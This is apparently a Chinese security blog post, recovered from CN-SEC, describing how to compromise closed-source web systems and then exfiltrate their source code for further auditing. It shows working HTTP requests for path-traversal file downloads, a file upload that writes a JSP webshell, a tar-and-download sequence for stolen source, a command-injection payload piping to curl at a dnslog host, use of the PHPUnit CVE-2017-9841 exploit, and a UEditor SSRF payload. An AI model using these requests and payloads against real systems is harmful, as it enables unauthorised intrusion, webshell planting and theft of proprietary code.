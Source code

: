 ```
标题: "无"源码环境下的代码审计之旅
创建: 2021-06-22
更新: 2024-02-03
```

> 从 CN-SEC 找回的旧文

---

分享一下前段时间遇到的系统无源码(不开源)的代码审计(捡漏)tips
- 任意文件读取/下载
- 在线审计
- n(1)day -> 0day
- getshell后 打包源码
- 是否出现常见漏洞组件或框架（编辑器/shiro/fastjson等）

---

### 案例1
- 跟着团队大哥的操作学习

发现一处文件下载的地方

```http request
GET /download?module=&method=Download&name=test.zip&filepath=doc/test.zip HTTP/1.1Host: 1.1.1.1User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) Accept: text/html,application/xhtml+xml,application/xmlAccept-Encoding: gzip, deflate
```

burp抓包，换为post请求发现可下载任意文件

```http request
POST /download HTTP/1.1Host: 1.1.1.1User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) Accept: text/html,application/xhtml+xml,application/xmlAccept-Encoding: gzip, deflate

module=&method=Download&name=test.zip&filepath=../webapps/WEB-INF/web.xml
```

读取日志文件判断class文件的位置

```http request
POST /download HTTP/1.1Host: 1.1.1.1User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64)Accept: text/html,application/xhtml+xml,application/xmlAccept-Encoding: gzip, deflate

module=&method=Download&name=test.zip&filepath=../logs/catalina.2021-xx-xx.log
```

下载class文件分析审计

在/download路由下的servlet存在上传文件和更新文件的操作

首先上传一个空文件到web目录：

```http request
POST /download HTTP/1.1Host: 1.1.1.1User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) Accept: text/html,application/xhtml+xml,application/xmlAccept-Encoding: gzip, deflate

module=&method=upload&txtFile_Name=x.jsp&home=/&filepath=../webapps/
```

再更新文件内容为webshell:

```http request
POST /download HTTP/1.1Host: 1.1.1.1User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) Accept: text/html,application/xhtml+xml,application/xmlAccept-Encoding: gzip, deflate

module=&method=updateContent&home=/&filepath=../webappsdebugx.jsp&content=xxxxxx()
```

### 案例2

某系统存在弱口令+后台RCE，打包源码

```shell
# 打包源码
tar -zcvf /usr/abc/www/xx.tar.gz /usr/abc/www/
# 下载源码 
http://www.xxx.com/xx.tar.gz
# 删除压缩包
rm -f xx.tar.gz
```

下载后进行代码审计
- 任意文件下载 1枚
- 后台RCE 1枚

**任意文件下载**

![](./img/1706969364849.png)

很明显的漏洞点，可用../进行目录穿越

```
/?c=backup&a=download&file=../../../../../../../../../etc/passwd
```

![](./img/1706969388299.png)


**后台RCE**

![](./img/1706969410696.png)

同样，也是明显的漏洞点，直接拼接了没经过滤的参数destip

```
/?c=maintain&a=iptrace

post:destip=127.0.0.1|curl q2tsgk.dnslog.cn
```

![](./img/1706969439814.png)


### 案例3

某系统使用了存在漏洞的框架

通过目录扫描/探测


![](./img/1706969466631.png)

发现了该系统存在路径

```
vendor/phpunit/src/Util/PHP/eval-stdin.php
```

瞬间想起了之前复现过的漏洞
- 框架：PHPUnit
- 编号：CVE-2017-9841

直接用工具打一波

![](./img/1706969506078.png)

提取指纹，看看互联网案例

![](./img/1706969518229.png)

影响范围还行，拿shell, 借用源码，继续审计。


### 案例4

某oa系统使用了存在漏洞的编辑器

使用nday拿到shell, 打包源码下载，然后进行代码审计。

在其目录机构中发现了ueditor

![](./img/1706969548026.png)

```
/ueditor/jsp/controller.jsp?action=catchimage&source[]=http://dnslog.cn/test.jpg
```

找了张当时刚捡到漏洞并验证的截图

![](./img/1706969570536.png)

...

---

欢迎一'点'三连（点分享+点赞+点在看）





















